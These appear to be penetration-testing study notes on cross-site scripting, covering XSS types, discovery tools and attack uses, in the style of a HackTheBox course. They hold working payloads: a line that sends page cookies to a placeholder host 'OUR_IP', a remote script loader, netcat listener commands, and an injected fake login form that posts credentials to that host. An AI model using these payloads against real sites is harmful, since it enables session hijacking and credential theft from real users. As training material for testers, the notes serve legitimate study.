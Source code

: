 # Cross Site Scripting (XSS) Notes

Execution of JavaScript code in an input field. Inherently a client focused vulnerability and can be equated to a medium risk.

|Type| 	Description|
|:----|:----|
|Stored (Persistent) XSS 	|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS 	|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS 	|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Cheat Sheet

|Code 	|Description|
|:----|:----|
|XSS| Payloads 	|
|<script>alert(window.origin)</script> 	|Basic XSS Payload|
|<plaintext> |	Basic XSS Payload|
|<script>print()</script> |	Basic XSS Payload|
|\<img src="" onerror=alert(window.origin)> 	|HTML-based XSS Payload|
|<script>document.body.style.background = "#141d2b"</script> 	|Change Background Color|
|<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script> |	Change Background Image|
|<script>document.title = 'HackTheBox Academy'</script> 	|Change Website Title|
|<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script> 	|Overwrite website's main body|
|<script>document.getElementById('urlform').remove();</script> 	|Remove certain HTML element|
|<script src="http://OUR_IP/script.js"></script>| 	Load remote script|
|<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 	|Send Cookie details to us
Commands 	|
|python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 	|Run xsstrike on a url parameter|
|sudo nc -lvnp 80 	|Start netcat listener|
|sudo php -S 0.0.0.0:80 	|Start PHP server|


## Stored XSS

If the value gets stored in say the DB and is pulled up for any user it's stored.

Typical payload
```
<script>alert('1')</script>
```

## Reflected XSS

Only displayed for the current user, usually from input placed in. Perfect for phishing or csrf type of attacks.

Display cookie values

```
<script>alert(document.cookie)</script>
```

## DOM XSS

While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript. DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

For DOM XSS there are two definitions to understand. The `Source` is the JavaScript object that takes the user input, and it can be any input parameter. The `Sink` is the function that writes the user input to a DOM Object. If the Sink doesn't properly sanitize the input we could get XSS. Common DOM objects:
- document.write()
- DOM.innerHTML
- DOM.outerHTML

JQuery functions that write to the DOM:
- add()
- after()
- append()

Other payload

```
<img src="" onerror=alert(window.origin)>
```

## XSS Discovery 

### Automated

We can use automated tools like Nessus, Burp Pro, or ZAP

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try XSS Strike by cloning it to our VM with git clone

```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

### Manual

Payload lists: 
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [xss-payload-list](https://github.com/payloadbox/xss-payload-list)

Using fuzzers like ffuf we can take these lists and test parameters like this.


### Code Review

Reviewing code would be the quickest way to check, but requires access to the code for it to work. 

## Attacks

### Defacing

Just use the XSS to make the website ugly or say something it shouldn't. Could be used to make things like some sort of drive by attacks.

### Phishing

Good use case, send a crafted URL with the XSS payload in it to trick a user.

In this use case we will create our own login form to capture users credentials

Example login form in html

```
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

The login form should look as follows:

```
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Now we should prepare our XSS code on the vulnerable form. To write HTML code to the vulnerable page we can use the JavaScript function `document.write()`. Also we should minify the code into one line/ 

Minified code:

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

If you have values you want to hide, like in our case a `Image URL` button to fool the user to login, do so like below

```
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```
